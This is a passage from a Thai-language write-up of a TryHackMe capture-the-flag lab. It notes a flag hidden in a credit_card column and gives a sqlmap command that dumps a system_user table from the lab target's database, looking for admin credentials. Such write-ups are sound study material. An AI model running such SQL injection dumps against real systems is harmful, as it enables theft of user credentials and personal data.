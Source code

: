 💡 ผลลัพธ์: สังเกตคอลัมน์ `credit_card` ของ `id = 6` พบ Flag ซ่อนอยู่ เอาไปตอบใน Tryhackme

![flag1](images/12.png)

### 🔸 3.4 ดึงข้อมูลจากตาราง system_user

หลังจากนั้น เราจะโฟกัสที่ตาราง `system_user` ซึ่งคาดว่าอาจมีข้อมูลผู้ใช้งานระบบ เช่น admin หรือข้อมูลที่เกี่ยวข้องกับการยกระดับสิทธิ์

📥 ใช้คำสั่ง:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc --dump -T system_user
```
![Sqlmap](images/13.png)
